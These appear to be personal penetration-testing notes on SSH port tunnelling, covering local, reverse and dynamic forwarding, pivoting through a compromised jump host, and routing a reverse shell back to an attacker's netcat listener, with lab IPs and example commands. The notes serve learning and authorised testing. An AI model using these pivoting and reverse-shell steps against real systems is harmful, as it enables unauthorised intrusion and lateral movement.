 # Port Tunneling Explained
I keep notes on how port tunneling works, and specify which scenario to deploy which technique.

## SSH Port Tunneling for exploitation

### Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is an open SSH service at 10.10.1.10:22 or 0.0.0.0:22.
- I have obtained credentials to the SSH service.

Technique: Local Port Forwarding via SSH.

```sh
(host)# ssh -L 3307:127.0.0.1:3306 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      22582/ssh
...
(host)# nc 127.0.0.1 3307
...
```

**Explanation:**
The first 3307 refers to opening a local port on your host machine. The 127.0.0.1:3306 refers to the remote host's service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

### Scenario 2:
- The service of my exploited machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is *no open* SSH server at 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH.

```sh
(host)# service ssh start
(exploited)$ ssh -R 3307:127.0.0.1:3306 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      25748/sshd
...
(host)# nc 127.0.0.1 3307
```

**Explanation:**
Within the exploited machine, we use the ssh client found inside exploited machine to connect back to our sshd hosted at our host machine with our set of credentials. 

The first 3307 refers to opening a local port on your remote machine (my host at 10.10.1.32). 
The 127.0.0.1:3306 refers to the local host's (exploited) service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

The format looks very similar to local port forwarding. TLDR, think of it as the same format but we swapped `-L` to `-R` for a reverse connection.

### Scenario 3:
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is an open SSH server at 10.10.1.10:22 or 0.0.0.0:22. 
- I have obtained credentials to the SSH service.

Technique #1: Local port forwarding via SSH to a single internal target.

```sh
(host)# ssh -L 8001:172.16.1.2:80 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# curl -v http://127.0.0.1:8001/
...
```

**Explanation:**
The first 8001 refers to opening a local port on your host machine. The 172.16.1.2:80 refers to the admin web panel located inside the intranet.
This will create an SSH tunnel to relay connection to your host's port 8001 to the target service. This is very similar to Scenario 1 except this time, we specify a specific remote target which is the intranet admin panel instead of 127.0.0.1.

Technique #2: Dynamic port forwarding via SSH to any internal target reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains curl -v http://172.16.1.2/
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy and reach the admin panel.
The benefit of this is that we are no longer limited to a single remote target hardcoded in our Local Port Forwarding. 

### Scenario 4:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 3.
- I found a vulnerability on 172.16.1.2:80 and I want to get a reverse connection back to my host machine (10.10.1.32). 
- There is an SSH client inside the jumphost.

Technique: Local Port Forwarding via SSH within jumphost to send reverse connection back to our host

```sh
(host)# service ssh start
(host)# nc -nlvp 9999
(host)# netstat -antp
...
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      100026/nc
...
(jumphost)$ ssh -L 172.16.1.10:4444:10.10.1.32:9999 kali@10.10.1.32
(jumphost)$ netstat -antp
...
tcp        0      0 172.16.1.100:9877       0.0.0.0:*               LISTEN      2283967/ssh
...
(host)# proxychains exploit.py --lhost=172.16.1.10 --lport=4444
```

**Explanation:**
I first start my own host's SSHd. I set a netcat listener at port 9999 to catch a reverse connection back on my host machine (10.10.1.32). 
Inside my jumphost, I leverage the SSH client found inside to perform a Local Port Forwarding instead. Interesting fact: Local Port Forwarding allows us to set a binding address without requiring any special option being enabled on the jumphost's SSHd configuration, unlike Remote Port Forwarding.
I can either set my binding address to 172.16.1.10 or 0.0.0.0. This will create a port 4444 listener on our jumphost as seen in our netstat. I then set the remote address pointing to my host's netcat at 10.10.1.32:9999. We can then exploit the admin web portal to call a reverse connection to our jumphost at 172.16.1.10:4444 which will be redirected back to our netcat listener, thus catching a reverse shell. 

#### Why did I not try Reverse/Remote Port Forwarding? 

I have failed to successfully set a binding address via `-R` connecting from my host. The listening port will only bind to 127.0.0.1:4444. This is not good as we cannot use this to catch reverse connection back to this jump host.

I found out the reason why was due to an option not being enabled as documented in the Man page for SSH -R: 
> By default, TCP listening sockets on the server will be bound to the loopback interface only.  This may be overridden by specifying a bind_address.  An empty bind_address, or the address ‘*’, indicates that the remote socket should listen on all interfaces.  Specifying a remote bind_address will only succeed if the server's GatewayPorts option is enabled (see sshd_config(5))

